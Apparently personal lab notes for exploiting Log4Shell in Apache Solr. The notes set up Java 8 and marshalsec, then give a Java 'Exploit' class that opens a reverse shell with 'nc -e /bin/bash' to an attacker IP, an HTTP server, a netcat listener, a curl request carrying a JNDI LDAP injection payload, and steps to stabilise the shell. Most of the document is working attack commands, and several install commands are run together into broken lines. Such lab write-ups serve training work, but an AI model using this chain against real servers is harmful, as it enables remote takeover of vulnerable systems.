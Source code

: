 - Install Java 8
    
    If you are not running 1.8.0_181 within the attack box, you can review the **`update-alternatives --set`** steps below to switch to this Java 8 version.
    
    If you are using your own attacking machine connected to the VPN, you may need to download and install Java 1.8.0_181 with the steps below:
    
    You can find a mirror of different Java versions to run on Linux at this location. [http://mirrors.rootpei.com/jdk/](http://mirrors.rootpei.com/jdk/)
    
    Select the **`jdk-8u181-linux-x64.tar.gz`** package (or alternatively, download the file attached to this task, added for your convenience).
    
    Download this into your attacking machine, and run the following commands to configure your system to use this Java version by default (adjust the download filesystem path as appropriate):
    
    ```
    sudo mkdir /usr/lib/jvmcd /usr/lib/jvmsudo tar xzvf ~/Downloads/jdk-8u181-linux-x64.tar.gz    # modify as neededsudo update-alternatives --install "/usr/bin/java" "java" "/usr/lib/jvm/jdk1.8.0_181/bin/java" 1
    sudo update-alternatives --install "/usr/bin/javac" "javac" "/usr/lib/jvm/jdk1.8.0_181/bin/javac" 1
    sudo update-alternatives --install "/usr/bin/javaws" "javaws" "/usr/lib/jvm/jdk1.8.0_181/bin/javaws" 1sudo update-alternatives --set java /usr/lib/jvm/jdk1.8.0_181/bin/java
    sudo update-alternatives --set javac /usr/lib/jvm/jdk1.8.0_181/bin/javac
    sudo update-alternatives --set javaws /usr/lib/jvm/jdk1.8.0_181/bin/javaws
    ```
    
    After you have downloaded, extracted, and set the appropriate filesystem settings (the update-alternatives syntax) above, you should be able to run `java -version` and verify you are in fact now running Java 1.8.0_181.
    

Install Maven

- clone marshalsec github
    
    You can download the files with git.
    
    If you do not yet have git, you can install it through your package manager (typically apt on Debian or Ubuntu based Linux distributions):
    
    **`sudo apt install git`**
    
    Clone the repository in any file system location of your choice (I would suggest /tmp or /opt):
    
    **`git clone https://github.com/mbechler/marshalsec`**
    

cd to marsalsec folder

mvn clean package -DskipTests

**`java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://YOUR.IP.ADDRESS:8000/#Exploit"`**

create an exploit file named NAME.java

`public class Exploit {
static {
try {
java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.IP.ADDRESS 9999");
} catch (Exception e) {
e.printStackTrace();
}
}
}`

confirm payload and verify with ls.

**`javac Exploit.java -source 8 -target 8`**

Don't use source or target if on own machine

**`javac Exploit.java`**

run a http server

`python3 -m http.server`

setup listener with same port you specified in your java file.

`nc -lnvp 9999`

LAUNCH THE ATTACK

`curl 'http://VULNERABLE_MACHINE_IP:PORT/solr/admin/cores?foo=$\\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:1389/Exploit\\}'`

S**tabilise shell**

**`python3 -c "import pty; pty.spawn('/bin/bash')"`**

(press on your keyboard) `Ctrl+Z`

(press on your keyboard) `Enter`

(on your local host) `stty raw -echo`

(on your local host) `fg` (you will not see your keystrokes -- trust yourself and hit **`Enter`**)

(press on your keyboard) `Enter`

(press on your keyboard) `Enter`

(on the reverse shell) `export TERM=xterm`

**Notes:**

If the correct Java is not running you can check this with:

`java -version`

If it's the wrong version you can use:

`sudo update-alternatives —config java`

and then select the version required.
